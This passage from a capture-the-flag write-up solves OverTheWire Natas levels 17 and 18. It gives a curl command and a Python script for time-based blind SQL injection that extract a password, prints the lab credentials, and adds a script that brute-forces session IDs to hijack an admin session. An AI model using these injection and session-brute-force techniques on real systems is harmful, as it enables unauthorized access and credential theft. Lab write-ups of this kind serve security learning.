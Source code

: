 ```
$ curl -u natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw http://natas17.natas.labs.overthewire.org/?debug -F 'username=natas18" and if(password like binary "x%", sleep(5), null) #'
```

If the password starts with `x`, the result will be returned after a sleep.

Start search for the password.

```python
#!/usr/bin/env python3
import requests

chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
        [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
        [chr(i) for i in range(ord("0"),ord("9")+1)]
password = ''

for i in range(32):
    for ch in chars:
        data = {'username': 'natas18" and if (password like binary "' + password + ch + '%", sleep(5), null) #'}
        auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
        try:
            requests.post('http://natas17.natas.labs.overthewire.org/?debug', data = data, auth = auth, timeout = 1)
        except requests.exceptions.Timeout:
            password += ch
            print(password)
            break
```

```
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

# 19. Level 18

```php
<?php
// http://natas18.natas.labs.overthewire.org/index-source.html
$maxid = 640; // 640 should be enough for everyone
?>
```

We can easily cover all 640 `PHPSESSID` to find out admin.

```python
#!/usr/bin/env python3
import requests

for i in range(641):
    auth = ('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
    cookies = {'PHPSESSID': str(i)}
    r = requests.get('http://natas18.natas.labs.overthewire.org/', auth = auth, cookies = cookies)
    if 'You are an admin' in r.text:
        print(r.text)
        break
```
